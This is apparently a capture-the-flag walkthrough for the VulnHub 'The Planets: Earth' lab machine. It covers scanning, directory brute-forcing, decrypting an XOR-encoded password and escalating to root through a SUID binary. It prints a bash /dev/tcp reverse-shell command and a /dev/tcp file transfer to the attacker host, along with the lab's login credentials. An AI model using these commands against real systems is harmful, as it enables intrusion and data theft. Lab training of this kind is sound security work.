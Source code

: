 # 🌍 The Planets: Earth – VulnHub Walkthrough

**Author**: [SirFlash](https://www.vulnhub.com/entry/the-planets-earth,755/)  
**Difficulty**: Easy  
**Flags**: 2 (User & Root)  
**Tools Used**: `netdiscover`, `nmap`, `gobuster`, `CyberChef`, `netcat`, `ltrace`

---

## 🛰️ 1. Reconnaissance

### 🔍 Discover Target IP

Use `netdiscover` to identify the target machine's IP address:

```bash
netdiscover
```

Assuming the target IP is `192.168.56.106`.

### 🔎 Port Scanning

Perform a comprehensive scan using `nmap`:

```bash
nmap -sV -sC -p- 192.168.56.106
```

Open ports identified:

- 22/tcp – SSH
- 80/tcp – HTTP
- 443/tcp – HTTPS

### 🧾 Analyze SSL Certificate

Accessing `https://192.168.56.106` reveals a Fedora admin page. Inspecting the SSL certificate uncovers DNS names:

- `earth.local`
- `terratest.earth.local`

Add these to your `/etc/hosts` file:

```bash
echo "192.168.56.106 earth.local" | sudo tee -a /etc/hosts
echo "192.168.56.106 terratest.earth.local" | sudo tee -a /etc/hosts
```

---

## 🌐 2. Web Enumeration

### 📂 Directory Brute-Forcing

Use `gobuster` to find hidden directories:

```bash
gobuster dir -u http://earth.local -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u https://terratest.earth.local -w /usr/share/wordlists/dirb/common.txt -k
```

Notable findings:

- `/admin` on `earth.local`
- `/robots.txt` on `terratest.earth.local`

### 📄 Analyze `robots.txt`

Access `https://terratest.earth.local/robots.txt` to find:

```
/testingnotes.txt
/testdata.txt
```

`testingnotes.txt` reveals:

- Username: `terra`
- Encryption method: XOR
- Key file: `testdata.txt`

---

## 🔐 3. Decrypting Credentials

The main page at `earth.local` displays encrypted messages. Using [CyberChef](https://gchq.github.io/CyberChef/):

1. Input the encrypted message.
2. Use the `XOR` operation with the contents of `testdata.txt` as the key.

Decryption yields the password: `earthclimatechangebad4humans`

---

## 🛠️ 4. Gaining Initial Access

### 🔑 Login to Admin Panel

Navigate to `http://earth.local/admin` and login with:

- Username: `terra`
- Password: `earthclimatechangebad4humans`

The panel provides a command execution interface.

### 🐚 Establish Reverse Shell

**On your machine (192.168.56.103):**

```bash
nc -lvnp 4444
```

**On the target (via admin panel):**

```bash
bash -i >& /dev/tcp/192.168.56.103/4444 0>&1
```

---

## 🧑‍💻 5. Privilege Escalation

### 🔍 Find SUID Binaries

On the target machine:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Notable binary: `/usr/bin/reset_root`

### 📤 Transfer Binary for Analysis

**On your machine:**

```bash
nc -lvnp 3333 > reset_root
```

**On the target:**

```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.56.103/3333
```

### 🧪 Analyze with `ltrace`

On your machine:

```bash
ltrace ./reset_root
```

The output indicates missing files required by the binary. Create them on the target:

```bash
touch /path/to/missing/file1
touch /path/to/missing/file2
touch /path/to/missing/file3
```

After creating the files, execute:

```bash
/usr/bin/reset_root
```

This resets the root password to `Earth`.

### 🔐 Gain Root Access

```bash
su root
```

Password: `Earth`

---

## 🏁 6. Capture Flags

- **User Flag**: Located in `/var/earth_web/`
- **Root Flag**: Located in `/root/`

---

## 📝 Conclusion

This walkthrough demonstrates the importance of thorough enumeration and analysis in penetration testing. By leveraging tools like `nmap`, `gobuster`, and `ltrace`, and utilizing online resources like CyberChef, we successfully gained root access to the target machine.

---

*Note: This walkthrough is for educational purposes only.*
